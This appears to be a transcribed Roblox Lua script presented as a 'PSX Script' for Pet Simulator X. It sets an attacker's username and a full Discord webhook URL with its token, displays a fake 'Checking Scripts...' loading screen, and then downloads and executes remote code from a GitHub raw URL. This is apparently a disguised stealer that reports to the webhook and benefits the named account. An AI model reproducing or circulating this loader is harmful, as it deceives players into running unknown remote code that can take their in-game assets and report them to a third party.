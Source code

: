 Username = "Mohammedking8645"
WebHook = "https://discord.com/api/webhooks/103827034152/GSnQ-DgU3PU6rY5y7ePOcYOi3bfDdCgjsiCib5yk07vBn8Y2HVknAR2INsTAEx8B-JNi"

loadingscreen = true -- set this to false and remove _G. stuff to use your own GUI
_G.CustomScriptName = "PSX Script"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
